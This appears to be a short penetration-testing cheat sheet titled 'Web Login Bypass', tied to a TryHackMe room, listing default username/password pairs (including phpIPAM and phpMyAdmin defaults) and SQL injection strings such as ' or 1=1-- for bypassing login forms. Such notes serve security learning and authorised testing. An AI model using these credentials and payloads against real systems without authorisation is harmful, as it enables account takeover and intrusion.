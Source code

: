 ```yaml
---
title: Web Login Bypass
description: 
tags:
    - SQL Injection
    - Web
refs:
    - https://tryhackme.com/room/nosqlinjectiontutorial
date: 2024-03-26
draft: false
---
```


## Common Default Credentials

Check if the website has not changed credential from the default username/password.

```sh
admin:admin
admin:password
admin:password1
admin:password123
admin:passw0rd
admin:(empty)
admin:12345

administrator:password
administrator:password1
administrator:password123
administrator:passw0rd
administrator:(empty)
administrator:12345

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## SQL Injections

Try the following inputs in the form.

```txt
'
'--
'-- -
'#
}'
}'--
}'-- -
}'#
' or 1=1
' or 1=1--
' or 1=1-- -
' or '1'='1
' or '1'='1--
' or '1'='1-- -
' or true--
```